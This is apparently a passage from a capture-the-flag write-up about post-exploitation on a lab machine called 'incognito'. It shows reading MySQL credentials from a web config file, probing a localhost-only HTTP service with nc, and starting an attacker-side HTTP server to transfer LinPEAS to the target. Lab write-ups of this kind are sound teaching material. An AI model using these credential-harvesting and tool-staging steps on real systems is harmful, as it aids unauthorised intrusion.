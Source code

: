 - Found localhost port: `1027`, `3306`

**Found MySQL credentials:**
```shell
www-data@incognito:/var/www/html$ head -n 5 admin/config.php 
<?php
$ini = parse_ini_file('/var/confs/webapp.ini');
if($ini['env']=='dev'){
$query=$_POST["username"];
$mysqli = new mysqli("localhost","dev","{Redacted}","db");
```

Let's dig deeper to port `1027`!

```shell
www-data@incognito:/var/www/html$ nc -nv 127.0.0.1 1027
Connection to 127.0.0.1 1027 port [tcp/*] succeeded!
hello?
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 400</p>
        <p>Message: Bad request syntax ('hello?').</p>
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>
```

By using `nc` to connect to port 1027, we found that it's a HTTP service.

**Let's send a raw GET request to `/`:**
```shell
www-data@incognito:/var/www/html$ nc -nv 127.0.0.1 1027
Connection to 127.0.0.1 1027 port [tcp/*] succeeded!
GET / HTTP/1.1

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 25
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 11 Jan 2023 08:49:42 GMT

Only Talking to Root User
```

Cool. 

**However, before using `chisel` to do port forwarding, let's use LinPEAS:**
```shell
┌──(root🌸siunam)-[/usr/share/peass/linpeas]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
